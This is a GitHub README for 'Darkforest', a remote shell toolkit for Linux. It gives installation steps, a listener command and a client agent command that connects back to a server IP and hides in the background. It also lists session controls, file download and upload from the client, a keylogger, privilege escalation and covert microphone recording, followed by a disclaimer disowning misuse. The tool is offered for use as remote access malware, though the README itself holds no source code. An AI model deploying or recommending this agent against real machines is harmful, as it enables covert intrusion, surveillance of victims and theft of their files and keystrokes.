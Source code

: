 <div align="center">
    <a href="https://github.com/kit4py/darkforest/stargazers">
        <img src="https://img.shields.io/github/stars/kit4py/darkforest?color=cba6f7&style=for-the-badge&logo=starship">
    </a>
    <a href="https://github.com/kit4py/darkforest/issues">
        <img src="https://img.shields.io/github/issues/kit4py/darkforest?color=fae3b0&style=for-the-badge&logo=github">
    </a>
    <a href="https://github.com/kit4py/darkforest/network/members">
        <img src="https://img.shields.io/github/forks/kit4py/darkforest?color=94e2d5&style=for-the-badge&logo=git-fork">
    </a>
    <a href="https://github.com/kit4py/darkforest/blob/main/LICENSE">
        <img src="https://img.shields.io/badge/license-MIT-rosewater?color=f5e0dc&style=for-the-badge&logo=archlinux">
    </a>
</div>

# Darkforest

A modular, scalable remote shell toolkit for Linux with session management, keylogging, audio recording, and more (features under development).


## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/kit4py/darkforest.git
   cd darkforest
   ```
2. Install dependencies in editable mode:

   ```bash
   pip install -e .
   ```
3. Ensure system dependencies:

   ```bash
   sudo apt update && sudo apt install ffmpeg
   ```

## Usage

### Start the server (listener)

```bash
rserver --host 0.0.0.0 --port 5555
```

### Launch the client (agent)

```bash
rclient --host <SERVER_IP> --port 5555
```

The client will detach to the background and free your terminal.

## Menu Commands

When the server starts, use the `darkforest>` prompt:

* `sessions`           : List active sessions
* `enter <session_id>` : Interact with a session
* `kill <session_id>`  : Terminate a session
* `clear`              : Clear the screen
* `help`               : Show this help message
* `quit`               : Exit the server

## In-Session Shell Commands

Once inside a session, the prompt changes to:

```
* [<session_id>] Shell~(<client_addr>):
```

Available commands:

* `cd <path>`           : Change directory on client
* `download <file>`     : Download file from client to server
* `upload <file>`       : Upload file from server to client
* `clear`               : Clear this local shell screen
* `exit`                : Return to the main menu
* `quit`                : Close the session

## Feature Modules (under development)

* **Keylogger**: `keylogger_start` / `keylogger_stop` (logs saved as `keylogs_session_<id>.txt`)
* **Privilege Escalation**: `priv_escalate`
* **Microphone Recorder**: `record_mic <seconds>` (MP3/WAV conversion requires `ffmpeg`)
* **Sound Player**: `play_sound <file.mp3>`

<br>

## Legal Disclaimer

> You expressly understand and agree that Darkforest (creators and contributors) shall not be liable for any damages or losses resulting from your use of this tool or third-party products that use it.
>
> **Creators have no responsibility for:**
>
> * Unlawful or illegal use of the tool.
> * Legal or law infringement by third parties and users.
> * Acts against ethical and/or human moral, cultural, or societal norms.
> * Malicious use or distribution causing damage to third parties.

---

© 2025 Darkforest Contributors. Licensed under the MIT License.

